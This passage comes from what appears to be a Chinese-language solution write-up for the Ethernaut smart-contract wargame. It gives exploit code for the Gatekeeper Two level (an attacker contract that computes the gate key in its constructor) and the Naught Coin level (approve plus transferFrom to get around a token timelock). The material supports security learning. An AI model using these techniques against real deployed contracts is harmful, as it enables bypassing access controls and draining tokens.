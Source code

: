 ```solidity
_gatekey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ uint64(0) - 1)
```

### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface GatekeeperTwoInterface {
  function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttack {

  GatekeeperTwoInterface gatekeeper;

  constructor(address GatekeeperTwoContractAddress) public {
    gatekeeper = GatekeeperTwoInterface(GatekeeperTwoContractAddress);
    bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(-1));
    gatekeeper.enter(key);
  }
}
```

## 15. Naught Coin
目標 `balanceOf(player) = 0`

Transfer 有個 10 年的 lock period
```solidity
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(now > timeLock);
      _;
    } else {
     _;
    }
  }
```
NaughtCoin 繼承了 openzeppelin ERC20：利用 approve() + transferFrom()

### Exploit
```javascript
totalBalance = await contract.balanceOf(player).then(v => v.toString())
await contract.approve(player, totalBalance)
await contract.transferFrom(player, contract.address, totalBalance)
```
